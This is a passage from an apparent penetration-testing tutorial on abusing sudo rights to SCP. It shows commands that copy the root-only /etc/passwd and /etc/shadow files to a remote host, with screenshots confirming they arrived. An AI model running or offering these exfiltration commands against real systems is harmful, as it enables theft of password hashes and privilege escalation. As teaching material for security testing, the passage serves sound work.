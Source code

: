 ### **Spawn shell through SCP**

As we know sudo right is available for SCP but it is not possible to get bash shell directory as shown above because it is a means of securely moving any files between a local host and a remote host. Therefore we can use it for transferring those system files which requires root permission to perform read/write operation such as /etc/passwd and /etc/shadow files.  
**Syntax:** scp SourceFile user@host:~/path of the directory  

sudo scp /etc/passwd aarti@192.168.1.105:~/ sudo scp /etc/shadow aarti@192.168.1.105:~/

1

2

sudo scp  /etc/passwd aarti@192.168.1.105:~/

sudo scp  /etc/shadow aarti@192.168.1.105:~/

![](https://i0.wp.com/2.bp.blogspot.com/-bgqCwS-nO2U/W3BOi0DwLII/AAAAAAAAZsQ/n-GROVJPMQkk9uXXDju8Z_-iObdOQ9xdgCLcBGAs/s1600/5.png?w=687)  
Now let’s confirm the transformation by inspecting remote directory and as you can observe we have successfully received passwd and shadow files in our remote pc.  
![](https://i2.wp.com/2.bp.blogspot.com/-hyZICA9iHdU/W3BOjF4188I/AAAAAAAAZsU/EZeXDQq6mBsqdWtwlMEqTY8SKSrLPEy1ACLcBGAs/s1600/6.png?w=687)